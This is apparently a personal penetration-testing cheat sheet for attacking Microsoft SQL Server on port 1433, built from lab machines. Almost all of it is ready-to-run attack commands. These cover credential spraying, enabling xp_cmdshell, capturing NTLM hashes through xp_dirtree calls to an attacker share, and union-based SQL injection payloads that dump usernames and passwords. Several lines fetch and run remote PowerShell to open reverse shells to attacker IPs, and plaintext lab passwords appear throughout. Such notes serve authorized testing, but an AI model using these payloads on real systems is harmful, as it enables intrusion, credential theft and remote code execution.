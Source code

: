 # MSSQL Port 1433

##### Enumeration

TEST DEFAULT CREDENTIALS.

````
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 $ip
````

#### PowerUpSQL

```bash
Import-Module .\PowerUpSQL.ps1
Get-SQLInstanceDomain
Invoke-SQLDumpInfo -Username flight\c.bum -password Tikkycoll_431012284 -Verbose
Get-SQLInstanceLocal -Username flight\c.bum -password Tikkycoll_431012284 -Verbose
Invoke-SQLAudit -Verbose -Instance SQLServer1
Invoke-SQLAudit -Username flight\c.bum -password Tikkycoll_431012284 -Verbose
sqlcmd.exe -S nagoya.nagoya-industries.com -U administrator -Q "EXEC sp_configure 'Show Advanced Options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;"
Get-SQLInstanceDomain -Verbose -DomainAccount svc_mssql
sqlcmd.exe -Q "use master; exec xp_dirtree '\\192.168.45.221\share\test'" -S nagoya.nagoya-industries.com`
```

##### Impacket

````
impacket-mssqlclient $user:$pass@$ip -windows-auth
````

##### Invoke-RunAs

If you have credentials for another user on a system, but cannot seem to login as them through any of the traditional methods, use the "Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "<reverse shell code>"" and execute a reverse shell to get onto the system as them.

##### Crackmapexec

````
proxychains crackmapexec mssql -d example.com -u sql_service -p password123  -x "whoami" 10.10.126.148
proxychains crackmapexec mssql -d example.com -u sql_service -p password123  -x "whoami" 10.10.126.148 -q 'SELECT name FROM master.dbo.sysdatabases;'
````

##### NetExec

Do not trust nxc's mssql  thing. try it manually, "impacket-mssqlclient administrator:hghgib6vHT3bVWf@10.10.112.154 -windows-auth"

````
nxc mssql $ip -u users.txt -p passwords.txt --continue-on-success
nxc mssql $ip -u users.txt -H $HASH --continue-on-success
````

##### Logging in

````
sqsh -S $ip -U sa -P CrimsonQuiltScalp193 #linux
proxychains sqsh -S 10.10.126.148 -U example.com\\sql_service -P password123 -D msdb #windows
````

##### Expliotation

```bash
xp_cmdshell whoami
enable_xp_cmdshell

# set up smb share locally to grab hash
xp_dirtree \\192.168.45.221\share\file
```

````
EXEC SP_CONFIGURE 'show advanced options', 1
reconfigure
go
EXEC SP_CONFIGURE 'xp_cmdshell' , 1
reconfigure
go
xp_cmdshell 'whoami'
go
xp_cmdshell 'powershell "Invoke-WebRequest -Uri http://10.10.126.147:7781/rshell.exe -OutFile c:\Users\Public\reverse.exe"'
go
xp_cmdshell 'c:\Windows\Tasks\pwn.exe'
go
````

Revshell Command that worked:

```bash
admin' UNION SELECT 1,2; EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://192.168.45.163:8000/rev.ps1") | powershell -noprofile';--+
```

#### Reverse

Edit Invoke-PowerShellTcp.ps1:  

```bash
Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444
```

```bash
impacket-mssqlclient <user>@<ip> -db <database>
```

```bash
xp_cmdshell powershell IEX(New-Object Net.webclient).downloadString(\"http://<ip>/Invoke-PowerShellTcp.ps1\")
```

https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1

#### Possible Queries

Test for xp_cmdshell first. A great guide is pentestmonkey's mssql cheatsheet.

Test for stacked queries, which is unique to MSSQL. Open up share on machine, or nc on 445.

```bash
q=500'; exec xp_dirtree '\\10.10.14.8\share\file';-- - # Used 500' bc union returned on this
```

Test for xp_cmdshell.

```bash
q=500'; exec xp_cmdshell 'ping 10.10.14.8';-- - # Run sudo tcpdump -i tun0 icmp
q=500'; exec sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; exec xp_cmdshell 'ping 10.10.14.8';-- -
q=500' UNION SELECT 1,2,3,4,5,6; EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://10.10.14.8:8000/rev.ps1") | powershell -noprofile';--+
q=500' UNION SELECT 1,2,3,4,5,6; exec sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://10.10.14.8:8000/rev.ps1") | powershell -noprofile';--+
```

For this, test for SQLi by doing something like '500%-- -' and checking response. Pick a field in response that only is returned for a valid search, and see when it's not returned.

```bash
select * from movies where name like '%500%';
q=500%'-- -
q=%500'-- -
q=500%' union select 1,2,3-- - # Until that field is returned
q=500' union select 1,2,3,4,5,6-- - # Same, RETURNED
q=500' union select 1,7337,9001,4,5,6-- -
q=500' union select 1,7337,9001,4,5,6-- -
q=500' union select 1,@@version,9001,4,5,6-- -
q=500' union select 1,user,9001,4,5,6-- -
q=500' union select 1,db_name(0),9001,4,5,6-- - # Run through integers to enum dbs
q=500' union select 1,name,3,4,5,6 from streamio..sysobjects where xtype='u'-- - # db is streamio
q=500' union select 1,CONCAT(name,':',id),3,4,5,6 from streamio..sysobjects where xtype='u'-- -
q=500' union select 1,string_agg(CONCAT(name,':',id),'|'),3,4,5,6 from streamio..sysobjects where xtype='u'-- - # Putting on a single row
q=500' union select 1,string_agg(CONCAT(name,':',id),'|'),3,4,5,6 from streamio..syscolumns where id=901578250-- - # 901.. is the users table that was returned from id
q=500' union select 1,string_agg(name,'|'),3,4,5,6 from streamio..syscolumns where id=901578250-- - # Don't need the id anymore, the last two have returned the columns, such as password, username, but not the data itself
q=500' union select 1,string_agg(concat(username,':',password),'|'),3,4,5,6 from users-- -
q=500' union select 1,string_agg(concat(username,':',password),'|'),3,4,5,6 from streamio..users-- -
```

```bash
select * from movies where CONTAINS (name, '*500*');
```

```bash
' or 1=1-- # Authentication Bypass
' SELECT @@version; WAITFOR DELAY '00:00:10'; — # Get Version + Delay
' UNION SELECT 1, null; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;-- # Enable xp_cmdshell
' exec xp_cmdshell "powershell IEX (New-Object Net.WebClient).DownloadString('http://<ip>/InvokePowerShellTcp.ps1')" ;-- # RCE
```

#### Enumeration

```bash
SELECT name FROM sys.databases;
SELECT * FROM master.INFORMATION_SCHEMA.TABLES;
```
##### Notes

If you're chiseling to look at mssql through the website on your localhost, go to phpmyadmin directory on the website

#### On Windows

If it has MSSQL installed. If not, you could always use Chisel.

```bash
sqlcmd -U db_admin -P 'B1@hx31234567890' -Q "USE STREAMIO_BACKUP; select username,password from users;"
```

```bash
sqlcmd -?
sqlcmd -Q "select name from sys.databases"
sqlcmd -Q "select * from sys.databases"
sqlcmd -Q "select name from sys.databases"
sqlcmd -Q "use umbraco; select * from umbraco..sysobjects"
sqlcmd -Q "use ADSync; exec xp_dirtree '\\10.10.14.8\share\file'"
sqlcmd -Q "use ADSync; select name from PK_mms_management_agent"
```

```bash
. .\PowerUpSQL.ps1
Invoke-SQLAudit -Verbose
```

#### Impersonation

If you can impersonate another user, try to grab the user's hash. (mssqlclient.py)

```bash
enum_impersonate
exec_as_login hrappdb-reader
exec_as_user hrappdb-reader
```

If you can't enable_xp_cmdshell or execute commands, try switching databases.

```bash
xp_dirtree //192.168.45.204/test/share
enable_xp_cmdshell
xp_cmdshell whoami
use hrappdb
```

If AD Azure, check out "https://blog.xpnsec.com/azuread-connect-for-redteam/".

sqlcmd -U sa -P DeathMarchPac1942 -Q "use umbraco; exec xp_cmdshell 'whoami'"
sqlcmd -U sa -P DeathMarchPac1942 -Q "use umbraco; EXEC SP_CONFIGURE 'xp_cmdshell' , 1; exec xp_cmdshell 'c:\Windows\Tasks\shell80.exe'"
sqlcmd -U sa -P DeathMarchPac1942 -Q "use umbraco; exec xp_dirtree '\\192.168.45.221\share\file'"
sqlcmd -U sa -P DeathMarchPac1942 -Q "use umbraco; select * from umbraco..cmsMember"
sqlcmd -U sa -P DeathMarchPac1942 -Q "use umbraco; select * from umbraco..sysobjects"umbracoUserLogin umbracoUser umbracoUserGroup

.\sqlcmd.exe -Q "exec xp_cmdshell 'whoami'"
.\sqlcmd -Q "use master; EXEC SP_CONFIGURE 'xp_cmdshell' , 1; exec xp_cmdshell 'whoami'"
sqlcmd -Q "use msdb; exec xp_cmdshell 'whoami'"
sqlcmd.exe -Q "use msdb; EXEC SP_CONFIGURE 'xp_cmdshell' , 1; exec xp_cmdshell 'C:\Users\Christopher.Lewis\Documents\shell139.exe'"